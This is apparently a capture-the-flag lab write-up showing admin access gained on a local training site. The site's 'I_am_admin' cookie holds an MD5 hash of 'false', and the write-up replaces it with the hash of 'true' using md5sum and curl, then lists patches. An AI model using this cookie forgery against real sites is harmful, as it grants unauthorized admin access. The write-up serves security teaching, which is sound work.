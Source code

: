 # Exploit

## Basic mechanism

This vulnerability exploits a fundamentally flawed authentication mechanism

## What can this do ?

1. Unauthorized administrative access: Anyone can become an admin
1. Privilege escalation: Regular users can elevate their permissions
1. Bypassing authentication: No actual login credentials required
1. Data exposure: Access to restricted administrative functions and data
1. System compromise: Potential to access, modify, or delete sensitive information

## What we did

We first inspect the home page with:
```bash
curl -I http://localhost:8080
```
We notice a cookie named admin (major red flag):
```bash
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327;
```

After searching for the hash algorithm we determine that ``68934a3e9455fa72420237eb05902327`` is ``md5sum`` of ``false``  
We only need to create a hash of ``true`` with `echo -n "true" | md5sum` and we obtain ``b326b5062b2f0e69046810717534cb09``.  
Now let's change the cookie value and refresh the page.

![Screenshot](./flag.png)

or we can do
```bash
curl --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09" http://localhost:8080 | grep "Good"
```
# Patch

- Server-side session management: Don't store sensitive authorization data in cookies
- Proper authentication: Implement a real login system with username/password
- JWT tokens: If stateless authentication is needed, use properly signed JWTs
- Secure cookie attributes: Set Secure, HttpOnly, and SameSite flags
- Strong encryption: If encryption is used, employ strong algorithms with proper key management
- Session expiration: Implement timeouts for inactive sessions
- Security headers: Add headers like HSTS, X-Content-Type-Options, etc.
- Random session IDs: Use unpredictable session identifiers that don't encode meaningful data
Cookie signing: Use HMAC or similar to ensure cookie integrity

# Tools

- [Hash analyzer](https://www.tunnelsup.com/hash-analyzer/#google_vignette)
- [Hash lookup table](https://crackstation.net/)